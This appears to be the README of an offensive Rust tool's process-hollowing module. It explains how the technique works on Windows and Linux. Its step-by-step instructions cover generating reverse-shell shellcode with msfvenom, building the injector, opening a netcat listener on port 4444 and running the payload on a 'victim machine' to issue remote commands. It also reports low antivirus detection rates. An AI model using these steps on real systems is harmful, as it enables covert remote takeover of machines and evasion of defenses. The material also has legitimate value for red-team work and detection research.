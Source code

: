 # RCO: Process Hollowing

[![Custom badge](https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkmanc%2Fremote_code_oxidation%2Fmaster%2F.custom_shields%2Fprocess_hollowing.json)](https://github.com/kmanc/remote_code_oxidation/tree/master/process_hollowing)

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![](https://user-images.githubusercontent.com/14863147/151645583-68e054fc-ba49-4691-bca6-4e924f8ad498.gif)  |  ![](https://user-images.githubusercontent.com/14863147/151642061-6df0f601-3f07-4e0c-aaf5-fbbc229de2e0.gif)


## How it works

Windows process hollowing works by createing a suspended process and writing the [shellcode](https://en.wikipedia.org/wiki/Shellcode) over the entry point of the process's main thread. It then resumes the suspended process, which in turn executes the shellcode.

Linux process hollowing functions a little differently. The executable first creates a child process that is a clone of itself. Then it overwrites the child process's [instruction pointer](https://datacadamia.com/computer/instruction/instruction_pointer) with shellcode. Because this process was not running before, it is unlikely this will cause any issues on the victim machine.

## Using it

1. [Not shown in GIF] Generate shellcode for the desired end result (for example, use [msfvenom](https://book.hacktricks.xyz/shells/shells/msfvenom) to generate a reverse TCP shell shellcode for the target operating system)
2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the shellcode to the shellcode generated in step 1
3. Compile the executable

    #### Build for Linux target
    ```commandline
    cargo build -p process_hollowing --release
    ```

    #### Build for Windows target
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p process_hollowing --release
    ```
4. Start a netcat listener on the attacking machine on the same port you configured the shellcode to connect to in step 1
    ```commandline
    nc -nlvp 4444
    ```   
5. Execute the payload on the victim machine
6. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 7 / 40](https://kleenscan.com/scan_result/c9dd1d93fa8a1a62d136b0f3fbe22fb21cbf65851271e73b177624fd5afbdef9)

![image](https://user-images.githubusercontent.com/14863147/151645694-c5962e70-a507-4352-8e23-9e452da19c96.png)

[Windows - 13 / 40](https://kleenscan.com/scan_result/6b7fd667a386059a55c8408affc1c8365859c27cd8ad247ca191c2c0796e1ad4)

![image](https://user-images.githubusercontent.com/14863147/151648081-497de6e6-a8c5-4232-a3b0-5e10fc60a069.png)
